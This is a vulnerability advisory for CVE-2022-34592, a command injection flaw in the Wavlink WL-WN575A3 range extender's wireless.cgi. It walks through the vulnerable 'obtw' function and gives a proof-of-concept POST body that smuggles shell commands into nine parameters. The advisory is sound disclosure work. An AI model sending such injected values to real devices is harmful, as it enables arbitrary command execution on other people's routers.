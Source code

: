 # CVE-ID

[CVE-2022-34592](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-34592 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-34592")

# Information

**Vendor of the products:**    WAVLINK

**Vendor's website:**    [https://www.wavlink.com/en_us](https://www.wavlink.com/en_us "https://www.wavlink.com/en_us")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    Wavlink WL-WN575A3

**Affected firmware version:**    RPT75A3.V4300.201217

**Firmware download address:**     [https://www.wavlink.com/en_us/firmware/details/fac744bd61.html](https://www.wavlink.com/en_us/firmware/details/fac744bd61.html "https://www.wavlink.com/en_us/firmware/details/fac744bd61.html")

# Overview

`Wavlink WL-WN575A3 RPT75A3.V4300.201217` has several command injection vulnerabilities detected at function `obtw`. Attackers can send `POST` request messages to `/cgi-bin/wireless.cgi` and inject evil commands into parameter `CCK_1M` or `CCK_5M` or `OFDM_6M` or `OFDM_12M` or `HT20_MCS_0` or `HT20_MCS_1_2` or `HT40_MCS_0` or `HT40_MCS_32` or `HT40_MCS_1_2` to execute arbitrary commands.

# Show the product

`Wavlink WL-WN575A3` is a AC1200 Dual-band Wi-Fi Range Extender. The test version here is `RPT75A3.V4300.201217`.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/0.jpg)

# Vulnerability details

The vulnerability is detected at `/etc_ro/lighttpd/www/cgi-bin/wireless.cgi`.

At first, from the `_start` entry enters, and then the `ftext` function is executed.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/5.jpg)

In the function `ftext`, we find that when bypassing the check of `wlan_conf` and the content of `page` field is `obtw`, we can execute the `obtw` function.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/6.jpg)

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/7.jpg)

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/8.jpg)

In the function `obtw`, the program uses function `web_get` to obtain the content of parameter `obtw_enable` , `CCK_1M` , `CCK_5M` , `OFDM_6M` , `OFDM_12M` , `HT20_MCS_0` , `HT20_MCS_1_2` , `HT40_MCS_0` , `HT40_MCS_32` and `HT40_MCS_1_2` which are sent by `POST` request. Then, when `obtw_enable != 0`, the content of other parameters are formatted into a string passed as an argument to the function `do_system` which can execute system commands.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/4.jpg)

Above all, attackers can send `POST` request messages to `/cgi-bin/wireless.cgi` and let `wlan_conf=2860 & page=obtw` and inject evil commands into parameter `CCK_1M` or `CCK_5M` or `OFDM_6M` or `OFDM_12M` or `HT20_MCS_0` or `HT20_MCS_1_2` or `HT40_MCS_0` or `HT40_MCS_32` or `HT40_MCS_1_2` to execute arbitrary commands.

# POC

Send the following to the URL `http://wifi.wavlink.com/cgi-bin/wireless.cgi` by `POST` request.

```
wlan_conf=2860
&page=obtw
&obtw_enable=1
&CCK_1M=;echo 1 >> /etc_ro/lighttpd/www/data.html;
&CCK_5M=;echo 2 >> /etc_ro/lighttpd/www/data.html;
&OFDM_6M=;echo 3 >> /etc_ro/lighttpd/www/data.html;
&OFDM_12M=;echo 4 >> /etc_ro/lighttpd/www/data.html;
&HT20_MCS_0=;echo 5 >> /etc_ro/lighttpd/www/data.html;
&HT20_MCS_1_2=;echo 6 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_0=;echo 7 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_32=;echo 8 >> /etc_ro/lighttpd/www/data.html;
&HT40_MCS_1_2=;echo 9 >> /etc_ro/lighttpd/www/data.html;
```

# Review Vulnerabilities

At first, we confirm that the page `/data.html` does not exist.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/1.jpg)

Then, we use `HackBar` to send the `POC` above. **We inject commands that output `1` to `9` in turn into each parameter.**

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/2.jpg)

Finally, we detect that the page `/data.html` has been created and the number `1` to `9` are displayed on the page.

![image](https://github.com/winmt/CVE/blob/main/WAVLINK%20WL-WN575A3/pic/3.jpg)

So far, we have verified that **the all above nine parameters can be vulnerability points injected by arbitrary commands**.
